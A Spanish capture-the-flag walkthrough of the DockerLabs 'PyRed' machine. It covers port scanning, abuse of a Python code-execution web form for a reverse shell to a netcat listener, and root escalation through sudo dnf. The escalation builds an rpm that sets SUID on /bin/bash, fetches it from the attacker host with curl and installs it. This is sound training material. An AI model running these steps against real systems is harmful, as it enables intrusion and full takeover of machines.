

# [PyRed](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pyred.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>


<br>

`-c 1` ⮞ solo lo repite una vez
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **5000**.
<br>


<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 5000 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:5000` ya que es el puerto 5000 el que aloja este servidor Web. Podemos ver u cuadro de texto que nos permite ejecutar código de python:

<br>


<br>

Sabiendo esto probamos a ejecutar el siguiente código:
<br>


<br>

Este código de python nos permite ejecutar comandos gracias a '`os.system`, por lo que una vez que sabemos esto pasaremos a mandarnos una revshell. En primer lugar nos ponemos en escucha por el puerto 443 con `nc -nlvp 443`:
<br>


<br>

En segundo lugar, debemos ejecutar un código en la web el cual nos mande una revshell, que sería el siguiente:
<br>


<br>

 > Una página muy útil para las revshell sería [esta](https://www.revshells.com/).

<br>

Y si nos dirigimos a nuestra terminal por donde estamos en escucha habremos recibido una shell:
<br>


<br>
<br>

## Escalada de Privilegios

He intentado hacer el Tratamiento de la TTY pero la bash se me petaba ya que no estaba instalado el comando script, por lo que tendremos que apañarnos sin el Tratamiento.
<br>

Vemos que hemos ingresado a la máquina como el usuario **primpi**
<br>

<br>

Si ejecutamos `sudo -l` podemos ver que podemos ejecutar `/usr/bin/dnf` sin proporcionar contraseña y poder escalar a **root**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>


<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando:
<br>


<br>

Por lo que en primer lugar debemos crear un paquete rmp personalizado en nuestra máquina de atacante, para ellos debemos seguir los siguientes pasos:
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `TF=$(mktemp -d)`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `echo 'chmod +s /bin/bash' > $TF/x.sh`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF`
<br>

 > Si no tenemos instalado fpm, debemos instalarlo con `gem install fpm`
<br>

Una vez que tenemos el paquete creado:
<br>


<br>

Nos lo compartiremos con la máquina víctima a través de un servido de python, de la siguiente manera `python3 -m http.server 80`, y en la máquina víctima hacemos un `curl 172.17.0.1/x-1.0-1.noarch.rpm -o x-1.0-1.noarch.rpm` para obtener el paquete
<br>


<br>

 > Si te da un error como este, recuerda que debes estar en un directorio donde tengas capacidad de escritura 

<br>

Por lo que ejecutaríamos el siguiente comando `sudo -u root dnf install -y x-1.0-1.noarch.rpm`, y comprobamos que tenemos el permiso SUID en la `/bin/bash`
<br>


<br>

Por lo que ahora haremos `/bin/bash -p`, y listo ya seremos `root`:
<br>

